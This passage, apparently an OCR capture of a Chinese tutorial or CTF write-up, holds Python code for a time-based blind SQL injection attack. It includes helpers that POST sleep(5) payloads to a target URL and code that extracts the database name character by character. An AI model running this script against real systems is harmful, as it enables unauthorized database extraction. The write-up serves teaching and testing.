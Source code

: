 ```python
        url = URL
        if index == -1:
            data = {"name": payload.format(char)}
        else:
            data = {"name": payload.format(index, char)}
        try:
            res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
            if log:
                print(f"Charactor '{char}' missed.")
            sleep(SLEEP_INTERVAL)
            continue
        except:
            if char == '?':
                continue
            if log_result:
                print(f"Matched '{char}'!")
            return char
    return None


def loop_str(L, R, payload, log=False, log_result=False):
    """逐字查找字符搜寻字符串
    
    Args:
        payload (str): 接受两个 Format 位的字符串，第一个`{}`代替为整型，第二个`{}`代替为字符
    """
    result = ""
    for i in range(L, R):
        if log:
            print(f"Testing index {i}...")
        char = test_char(payload, index=i, log=log, log_result=False)
        if char != None:
            result += char
            if log:
                print(f"Matched '{char}' at the index {i}!")
                print(f'- Current result: "{result}"')
    if log_result:
        print(f'[Result] "{result}"')
    return result
```

先获取数据库名：

```python
# 获取数据库长度
db_len = test_int(1,10,"if(length(database())={},sleep(5),1)")
print(db_len)
# 获取数据库名
database = loop_str(1, db_len+1, "if((substr(database(),{},1))='{}',sleep(5),1)", log=True, log_result=True)
print(database)
```

